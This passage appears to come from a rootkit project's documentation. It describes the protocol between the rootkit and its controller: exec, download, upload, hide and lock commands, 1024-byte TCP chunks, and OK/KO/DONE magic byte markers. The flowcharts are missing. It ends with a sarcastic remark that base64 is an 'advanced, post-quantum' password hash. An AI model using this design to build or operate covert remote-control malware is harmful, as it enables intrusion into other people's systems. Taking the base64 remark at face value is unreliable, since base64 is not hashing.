commands such as hiding or locking, or write potentially long amounts of data
in the case of exec or download. They will be split in chunks of 1024 bytes,
and the TCP protocol ensures their ordering. To indicate the end of the data
transmission, magic byte sequences are used. There are three of them defined as
a convention in both the programs:

- `OK_BYTES`: indicates that an operation can proceed
- `KO_BYTES`: indicates that an operation should be canceled
- `DONE_BYTES`: indicates that a data transmission ended

The first two are used by the rootkit to indicate that a file asked for 
downloading was found and opened, or that a file to be uploaded has been
created.

Here is a flowchart for the _Download_ command's execution flow:

 


And here is a flowchart for the Upload command's execution flow:

 

#### Password handling

To avoid storing the password in clear text in the rootkit, it is stored as a 
hashed version with a very advanced, post-quantum ready algorithm: __base64__!
